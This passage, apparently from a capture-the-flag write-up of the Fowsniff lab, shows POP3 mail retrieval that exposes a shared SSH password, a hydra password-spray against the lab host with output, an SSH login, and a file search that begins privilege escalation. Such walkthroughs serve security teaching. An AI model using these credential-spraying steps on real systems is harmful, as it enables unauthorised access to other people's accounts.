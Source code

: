 ```
LIST
+OK 2 messages:
1 1622
2 1280
```

The first message is addressed to 8 people and shows the temporary password to log in inside the SSH service.

```
RETR 1
+OK 1622 octets
...SNIP...
To: baksteen@fowsniff, mauer@fowsniff, mursten@fowsniff,
    mustikka@fowsniff, parede@fowsniff, sciana@fowsniff, seina@fowsniff,
    tegel@fowsniff
...SNIP...
The temporary password for SSH is "S1ck3nBluff+secureshell"
...SNIP...
```

The second message is addressed to Seina but doesn't have anything important to gather info about the target.

### SSH - TCP 22

Connect to ssh service using brute-force with the `hydra` command:

```
$ hydra -L loot/users.txt -p "S1ck3nBluff+secureshell" 10.10.30.229 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-22 12:34:23
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries (l:8/p:1), ~1 try per task
[DATA] attacking ssh://10.10.30.229:22/
[22][ssh] host: 10.10.30.229   login: baksteen   password: S1ck3nBluff+secureshell
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-22 12:34:27
```

I log into the ssh with the user `baksteen` and the password `S1ck3nBluff+secureshell`.

### Getting Root Access

Looking in the system I see that `baksteen` is the `users` group and I try to find some files that has that group to see if there is something interesting.

```
$ baksteen@fowsniff:~$ find / -group users -type f 2>/dev/null
/opt/cube/cube.sh
...SNIP...
```

